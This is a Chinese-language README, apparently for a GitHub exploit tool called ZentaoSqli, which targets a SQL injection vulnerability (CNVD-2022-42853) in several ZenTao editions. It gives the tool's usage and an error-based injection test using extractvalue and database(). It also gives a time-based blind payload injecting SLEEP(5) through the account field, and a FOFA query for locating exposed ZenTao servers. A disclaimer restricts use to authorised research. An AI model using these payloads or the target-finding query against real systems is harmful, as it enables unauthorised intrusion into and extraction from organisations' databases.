 # ZentaoSqli 禅道存在SQL注入漏洞 CNVD-2022-42853

author:160team.west9B


**仅限用于安全研究人员在授权的情况下使用，遵守网络安全法，产生任何问题，后果自负，与作者无关。**

# 01-基本介绍

漏洞编号

CNVD-2022-42853  公开日期：2022/6/14

影响产品

禅道企业版 6.5

禅道旗舰版 3.0

禅道开源版 16.5

禅道开源版 16.5.beta1

# 02-使用说明

## usage: ./Zentao.exe -u url  (加http://)

禅道当前数据库都是zentao,判断注入条件 extractvalue(1,concat(0x7e,(database()),0x7e) == zentao

盲注payload account=admin';SELECT SLEEP(5)#

# Screenshots
![Image text](https://github.com/west9b/ZentaoSqli/blob/main/POC.png)

# fofa
app="易软天创-禅道系统"

